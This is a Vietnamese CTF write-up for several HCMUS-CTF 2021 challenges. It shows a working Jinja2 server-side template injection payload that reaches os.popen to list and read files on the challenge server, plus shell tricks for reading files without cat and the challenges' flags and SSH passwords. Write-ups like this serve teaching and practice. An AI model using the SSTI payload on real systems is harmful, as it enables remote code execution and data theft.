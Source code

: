 # Nothingless
url: http://61.28.237.24:30103/
```
Sorry / is under construction. Please try again later
```
Đây là một vấn đề server side template injection
Ta kiểm tra thử xem thế nào
url: http://61.28.237.24:30103/{{1+1}}
```
Sorry /2 is under construction. Please try again later
```
Có thể là jinja2 chăng?<br/>
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls").read()}}
```
Sorry /__pycache__ app.py requirements.txt is under construction. Please try again later
```
Cuối cùng <br/>
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat ../flag_HKOOS2lrdD").read()}}
```
Sorry /HCMUS-CTF{404_teMpl4t3_1njEctIon} is under construction. Please try again later
```
flag: HCMUS-CTF{404_teMpl4t3_1njEctIon}

# Dodge
ssh ctf@61.28.237.24 -p30400<br/>
password: hcmus-ctf
Ban đầu ta test thử thì thấy ta có thể sử dụng lệnh ls và lệnh echo.<br/>
Ta có thể sử dụng lệnh shell thay cho cat
```shell
  while read line; do
    echo $line;
  done <flag.txt
```
flag: HCMUS-CTF{You_know_some_command_line_stuff}<br/>
Tham khảo: https://jarv.org/posts/cat-without-cat/

# StrangerThing

ssh ctf@61.28.237.24 -p30401<br/>
password: hcmus-ctf
```shell
cat flag1.txt 		                #=> HCMUS-CTF{this 
cat -- '-flag 2.txt' 		          #=> _is_used_to_test
ls ./secret/ -a                   #=> .flag3.txt
cat ./secret/.flag3.txt	          #=> _linux_command_line}
```
=> HCMUS-CTF{this_is_used_to_test_linux_command_line}
# Metadata
Lấy image từ dockerhub ở vinhph2/hcmus-ctf-2021<br/>
Inspect xem thử như thế nào 
![image](https://user-images.githubusercontent.com/20945393/119263609-f40aad00-bc09-11eb-83f7-b4678439360a.png)
flag: HCMUS-CTF{d0ck6r_1mag6_1nsp6ct}<br/>
fake flag: HCMUS{docker_image}

